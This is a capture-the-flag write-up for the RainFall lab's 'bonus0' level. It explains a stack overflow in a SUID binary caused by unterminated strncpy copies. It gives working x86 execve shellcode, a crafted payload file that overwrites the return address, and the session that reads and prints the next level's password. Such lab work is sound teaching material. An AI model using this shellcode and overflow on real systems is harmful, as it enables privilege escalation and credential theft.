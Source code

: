 # Bonus0

## Solution

* There is one file in our home, ```bonus0```, belonging to ```bonus1``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the very long disassembled code, but we will describe its behaviour:

	* main function allocates on its stack a ```0x2a``` bytes buffer (that we will name ```final_buf```) and passes it to ```pp``` function
	* ```pp``` function allocates two ```0x14 = 20``` bytes buffers on its stack (```buf1``` anf ```buf2```). It is important to note that ```buf2``` and ```buf1``` are contiguous
	* ```p``` function is called twice by ```pp```, with succesively ```buf2``` and ```buf1``` in parameter
	* ```p``` reads on the stdin with a limit of ```0x1000 = 4096``` bytes
	* ```p``` uses ```strchr``` to find the first occurence of ```\n``` and puts ```\0``` instead. This section is not protected
	* it then uses ```strncpy``` to copy the content of what has been read in the buffer passed in argument, with a limit of ```0x14``` chars
	* the content of ```buf2``` is then copied in ```final_buf```
	* a space is put in place of final ```\0``` and ```strcat``` is used to concatenate the string with the content of ```buf1```
	* ```main``` finally prints the final_buf

* What we did with all of that:

	* our goal was to use the ```final_buf``` to write an address to a shellcode in place of the former ```eip``` address
	* the offset between the beginning of ```final_buf``` and the location of former ```eip``` address is ```0x36 = 54``` bytes : it means that we wanted to write the address of our shellcode ```54``` bytes after the beginning of ```final_buf```
	* in theory we could only write ```40``` bytes at the end as only ```20``` bytes are copied in respectively ```buf2``` and ```buf1``` after call to ```read```
	* but ```buf2``` and ```buf1``` are contiguous in memory and the content of call to ```read``` is copied with ```strncpy```: if there is no ```\0``` in the first ```20``` bytes, the copy won't be terminated
	* for instance, if ```buf1``` is not terminated, ```final_buf``` will be as follow: ```buf1+buf2 buf2```, that is to say potentially ```59``` bytes
	* we decided to store the shell code in an environment variable:
	```sh
	export SHELLCODE=`python -c "print('\x90' * 1024 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')"`
	```
	* the we got the ```SHELLCODE``` variable approximative address thanks to ```env.c``` program (see in the ressources)
	```
	bonus0@RainFall:~$ gcc -fno-stack-protector -z execstack -o /var/crash/env /var/crash/env.c
	bonus0@RainFall:~$ /var/crash/env SHELLCODE
	SHELLCODE: 0xbffff4ce
	```
	* to be able to handle the two successive calls to ```read``` with only one file, we wrote first ```0x1000 = 4096``` bytes in a file (the size of the ```read``` buffer), followed by padding bytes and finally the approximative address of our shellcode:
	```sh
	python -c "print('A' * 4095 + '\n' + 'B' * 14 + 'def4ffbf'.decode('hex') + 'C' + '\n')" > /var/crash/bns0
	```
	* we can now exploit the vulnerability of ```bonus0``` file:
	```
	bonus0@RainFall:~$ cat /var/crash/bns0 - | ./bonus0
	-
	-
	AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBB����C BBBBBBBBBBBBBB����C
	cd ../bonus1; cat .pass
	cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
	```